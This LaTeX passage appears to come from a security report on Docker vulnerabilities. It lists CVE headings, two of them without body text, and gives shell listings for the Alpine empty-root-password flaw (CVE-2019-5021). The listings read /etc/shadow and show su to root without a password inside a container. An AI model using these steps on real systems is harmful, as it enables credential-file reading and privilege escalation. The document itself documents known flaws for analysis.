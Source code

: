 \section{Vulnerabilities}

In the \hyperref[appendix:CVE-List]{appendix} you can find a list of all the Docker related vulnerabilities I have looked at.

\subsection{\texorpdfstring{\lstinline{waitid()}}{waitid()} Container Escape (CVE--2017--5123)}

\subsection{Alpine Image Root Password (CVE--2019--5021)}
\begin{lstlisting}
$ docker run -it --rm alpine:3.5 cat /etc/shadow
root:::0:::::
\end{lstlisting}

\begin{lstlisting}
$ docker run -it --rm alpine:3.5 sh
/ # apk add --no-cache linux-pam shadow
...
/ # adduser test
...
/ # su test
Password:
/ $ su root
/ #
\end{lstlisting}

\subsection{\texorpdfstring{\lstinline{runC}}{runC} Container Escape (CVE--2019--5736)}
